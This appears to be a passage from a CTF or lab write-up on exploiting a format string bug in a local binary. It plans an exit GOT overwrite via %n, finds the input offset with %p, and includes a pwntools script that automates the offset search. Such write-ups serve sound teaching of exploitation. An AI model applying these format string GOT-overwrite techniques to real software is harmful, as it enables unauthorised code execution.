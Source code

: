 ![[images/got.png]]


I am going to overwrite the `exit` GOT entry in my exploit.

We can write value on stack using `%n` format specifier. However i am not going to do it manually. Let the pwntools handle it properly.

Before moving further let's calculate the offset.

lets throw bunch of `%p`.

![[images/format_offset.png]]

if we observer output carefully , we can see our input being reflected at position 4. So our offset is going to be 4.

There is even a cool way to calculate the offset using pwntools.

## Let's Automate
```python
from pwn import *
from pwnlib.fmtstr import FmtStr
from time import sleep

context.terminal=['tmux', 'new-window']
#context.log_level = 'debug'
elf = context.binary = ELF('./malicious', checksec=False)


gs = '''
b main
'''

def calculate_offset(payload):

    p = process(elf.path)
    p.sendlineafter("?", "yes")
    p.recvline()
    p.sendline(payload)
    sleep(0.1)
    p.recvline()
    p.recvline()
    p.recvline()
    r = p.recvline()
    p.close()
    return r


print(FmtStr(execute_fmt=calculate_offset).offset)

```

![[images/offset_automate.png]]
